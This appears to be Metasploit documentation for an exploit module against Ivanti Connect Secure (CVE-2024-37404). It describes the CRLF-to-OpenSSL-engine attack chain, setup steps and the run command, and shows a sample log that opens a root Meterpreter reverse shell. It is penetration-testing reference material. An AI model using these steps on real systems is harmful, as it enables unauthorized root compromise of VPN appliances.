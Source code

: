 ## Vulnerable Application

This module exploits a CRLF injection vulnerability in Ivanti Connect Secure to
achieve remote code execution (CVE-2024-37404). Versions prior to 22.7R2.1 are
vulnerable. Note that Ivanti Policy Secure versions prior to 22.7R1.1 are also
vulnerable but this module doesn't support this software.

Valid administrative credentials are required. A non-administrative user is also
required and can be created using the administrative account, if needed.

Finally, the `Client Log Upload` feature needs to be enabled. This can also
be done using the administrative interface (see the Installation Steps section
below), if it is not enabled already.

### Process Overview

First, the module will log into the administrative interface and check if the version
is vulnerable. Then, it will connect to the user interface using non-privileged
credentials and upload a log file archive containing the payload. This file is
stored as a known path on the server, which can be retrieved from the
administrative interface. Then, it leverages the CRLF vulnerability by creating
a Certificate Signing Request and passing a specially crafted OpenSSL
configuration. This configuration instructs OpenSSL to use a custom
cryptographic engine, which points to the log file path (our payload). The
payload is immediately executed, giving RCE as the root user on the appliance.

This has been successfully tested against Ivanti Connect Secure version 22.3R1 (build 1647).

### Installation Steps

Get an Ivanti Security Appliance (ISA) or a Virtual Appliances (ISA-V Series)
with a vulnerable Ivanti Connect Secure installed.

Note that it is not possible to download a trial version of a Virtual Appliance
unless you contact sales and request a demo.

Log into to the admin interface (https:/<IP>/admin) to proceed with the following requirements:

#### Create a normal user

- In the `Authentication` menu, select `Auth. Servers`.
- Select the `System Local` `Authentication/Authorization Servers` or any
  server with the type `Local Authentication`. Don't select the
  `Administrators` server since we need a non-administrative account.
- Click on the `Users` tab and then `New`.
- Fill the registration form and click `Save Changes`.

#### Enable Client Log

- Go to `Users` > `User Roles` and click on the `Users` role.
- Go to `General` > `Session Options`.
- Select `Enable Upload Logs` under the `Upload logs` section.
- Click `Save Changes`.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/ivanti_connect_secure_rce_cve_2024_37404`
1. Do:
   `run verbose=true lhost=<local host> rhosts=<remote host> admin_username=<admin username> admin_password=<admin password> username=<normal user> password=<user password>`
1. You should get a Meterpreter session
1. Make sure the admin and the normal user have been logged out by logging in
   the web interfaces with a web browser (you should have any warning saying a
   session is already active)
1. Make sure the cleanup has been done correctly by checking `System` > `Log/Monitoring`

## Options

### ADMIN_USERNAME

Administrative username to authenticate with.

### ADMIN_PASSWORD

Administrator password to authenticate with.

### USERNAME

Normal user username to authenticate with.

### PASSWORD

Normal user password to authenticate with.

## Scenarios

### Ivanti Connect Secure version 22.3R1 (build 1647)

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_37404) > run verbose=true lhost=192.168.211.69 rhosts=192.168.211.200 admin_username=msfadmin admin_password=1234567890 username=msfuser password=1234567890

[*] Started reverse TCP handler on 192.168.211.69:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Login to the administrative interface with username 'msfadmin' and password '1234567890'...
[!] The admin msfadmin is already logged in
[*] Getting the version...
[+] Found version 22.3R1 (build 1647)
[+] The target appears to be vulnerable.
[*] Uploading the payload...
[*] Login to the user interface with username 'msfuser' and password '1234567890'...
[*] Uploading the log file...
[*] Logging the user out...
[*] Getting the log file name...
[*] Triggering the payload...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (1017704 bytes) to 192.168.211.200
[*] Cleaning up...
[*] Deleting the log file (payload)...
[*] Logging the administrator out...
[*] Meterpreter session 3 opened (192.168.211.69:4444 -> 192.168.211.200:50210) at 2024-10-29 16:43:35 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.211.200
OS           :  (Linux 4.15.18.34-production)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
